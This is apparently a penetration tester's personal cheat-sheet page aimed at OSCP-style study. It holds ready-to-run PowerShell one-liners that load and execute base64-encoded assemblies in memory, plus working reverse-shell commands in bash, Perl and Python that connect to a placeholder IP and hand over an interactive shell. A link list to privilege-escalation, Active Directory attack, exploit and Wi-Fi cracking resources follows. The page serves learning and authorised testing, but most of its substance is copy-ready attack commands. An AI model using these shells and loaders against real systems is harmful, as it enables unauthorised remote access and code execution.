 ```yaml
---
layout: single
permalink: /notes/
author_profile: true
---
```


- [Powershell](#powershell)
  - [One liner to execute base64 encoded assembly](#one-liner-to-execute-base64-encoded-assembly)
  - [Run arbitrary assembly](#run-arbitrary-assembly)
  - [Download file](#download-file)
  - [Powershell-friendly base64 from Linux](#powershell-friendly-base64-from-linux)
  - [Base64 encode file](#base64-encode-file)
- [Shells](#shells)
  - [Bash](#bash)
    - [Regular](#regular)
    - [Background process](#background-process)
    - [Perl](#perl)
    - [Python](#python)
  - [Sites](#sites)
    - [Payloads all the things](#payloads-all-the-things)
    - [Pentestmonkey](#pentestmonkey)
- [Resources(Useful Websites)](#resourcesuseful-websites)
  - [General/OSCP](#generaloscp)
  - [Privilege Escalation](#privilege-escalation)
    - [Linux](#linux)
    - [Windows](#windows)
  - [Active Directory](#active-directory)
    - [Offense](#offense)
    - [Defense](#defense)
  - [Web App](#web-app)
  - [Buffer Overflow</h2>](#buffer-overflowh2)
  - [Wireless](#wireless)
  - [Tools](#tools)


## Powershell
### One liner to execute base64 encoded assembly
```
[System.Reflection.Assembly]::Load([System.Convert]::FromBase64String(<base64-str-here>)).EntryPoint.Invoke($null,@(,([string[]](""))))
```
### Run arbitrary assembly
```
$as.EntryPoint.Invoke($null, @(,[string[]]("arg1", "arg2", "etc")))
```
### Download file
```
iwr -Uri <url> -OutFile <name>
```
### Powershell-friendly base64 from Linux
```
echo -n '<text>' | iconv -f UTF8 -t UTF16LE | base64
```
### Base64 encode file
```
[Convert]::ToBase64String([IO.File]::ReadAllBytes(<file-path>))
```
## Shells
### Bash
#### Regular
```
bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
```
#### Background process
```
bash -c '(bash -i >& /dev/tcp/10.0.0.1/8888 0>&1)&'
```
#### Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
#### Python
One Liner
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
In a script
```
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```
### Sites
#### Payloads all the things
[Reverse shell cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
#### Pentestmonkey
[Reverse shell cheat sheet]()
## Resources(Useful Websites)
### General/OSCP
[https://guif.re](https://guif.re)  
[https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html](https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html)
### Privilege Escalation
#### Linux
[https://guif.re/linuxeop](https://guif.re/linuxeop  
)  
[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
#### Windows
[https://guif.re/windowseop](https://guif.re/windowseop)  
[https://www.fuzzysecurity.com/tutorials/16.html](https://www.fuzzysecurity.com/tutorials/16.html)
### Active Directory
#### Offense
[https://blog.harmj0y.net/](https://blog.harmj0y.net/)  
[https://adsecurity.org/](https://adsecurity.org/)  
[https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
#### Defense
[https://medium.com/blue-team/preventing-mimikatz-attacks-ed283e7ebdd5](https://medium.com/blue-team/preventing-mimikatz-attacks-ed283e7ebdd5)
### Web App
[https://guif.re/webtesting](https://guif.re/webtesting)  
[https://www.apriorit.com/dev-blog/622-qa-web-application-pen-testing-owasp-checklist](https://www.apriorit.com/dev-blog/622-qa-web-application-pen-testing-owasp-checklist)   
[https://github.com/blabla1337/skf-labs](https://github.com/blabla1337/skf-labs)
### Buffer Overflow</h2>
[https://github.com/stephenbradshaw/vulnserver](https://github.com/stephenbradshaw/vulnserver)  
[https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G](https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G)  
[http://netsec.ws/?p=180](http://netsec.ws/?p=180)  
[https://dl.packetstormsecurity.net/papers/general/overflows_and_more.pdf](https://dl.packetstormsecurity.net/papers/general/overflows_and_more.pdf)
### Wireless
[https://www.aircrack-ng.org/doku.php?id=cracking_wpa](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
### Tools
[https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)  
[https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)  
[https://www.exploit-db.com/](https://www.exploit-db.com/)  
[https://github.com/zricethezav/gitleaks](https://github.com/zricethezav/gitleaks)  
[https://crt.sh/](https://crt.sh/)
